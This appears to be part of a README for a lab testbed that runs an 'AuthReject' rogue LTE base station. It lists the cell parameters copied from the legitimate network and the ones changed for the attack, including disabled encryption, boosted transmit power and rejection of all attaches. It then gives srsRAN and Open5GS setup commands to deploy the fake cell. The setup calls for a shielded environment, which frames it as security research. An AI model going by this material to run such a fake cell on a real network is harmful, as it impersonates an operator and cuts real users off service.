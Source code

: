 ### Copied from Legitimate
- **MCC/MNC**: 001/01 (appears as same operator)
- **EARFCN**: 3600 (targets same frequency band)
- **Bandwidth**: 50 PRB (compatible with legitimate)

### Modified for Attack
- **TAC**: 0x0008 (8) triggers authentication procedure
- **TX Gain**: 70 dB (+10 dB stronger than legitimate 60 dB)
- **Security**: EIA0/EEA0 (disabled integrity/encryption)
- **Cell ID**: 0x03 (different from legitimate 0x01)
- **PCI**: 4 (unused by legitimate cells)
- **Handover**: Disabled (standalone operation)
- **Attach/Auth Rejection**: Enabled (rejects all requests)

## Setup Instructions

### Prerequisites
- Three USRP B210/B220 SDR devices
- srsRAN 4G and Open5GS installed
- Shielded environment for testing

### 1. SDR Configuration
```bash
# Verify SDR devices are connected
uhd_find_devices

# Expected output:
# Device 1: serial=C5XA7X9 (Legitimate Cell 1)
# Device 2: serial=P44SEGH (Legitimate Cell 2)
# Device 3: serial=XXXXXX (AuthReject Base Station)
```

### 2. Copy Configurations
```bash
# Copy AuthReject configurations to srsRAN config directory
sudo cp configs/authreject_enb.conf /root/.config/srsran/
sudo cp configs/authreject_sib.conf /root/.config/srsran/
sudo cp configs/authreject_rr.conf /root/.config/srsran/
sudo cp configs/authreject_rb.conf /root/.config/srsran/

# Copy AuthReject MME configuration (overwrites legitimate MME config when running attack)
sudo cp configs/authreject_mme.yaml /etc/open5gs/mme.yaml
```

### 3. Configure HSS Database (Critical for Authentication Rejection)
```bash
# IMPORTANT: Ensure HSS database has NO valid subscribers for the attack network
# This causes the MME to reject all authentication attempts with "IMSI unknown in HSS"

# Option 1: Remove specific IMSI from HSS
sudo open5gs-dbctl remove <IMSI_of_target_UE>

# Option 2: Verify HSS has no subscribers (recommended for isolated attack network)
sudo open5gs-dbctl list
# Should show empty or only legitimate network subscribers

# Note: Without valid subscribers in HSS, all UE attach attempts will be rejected
```
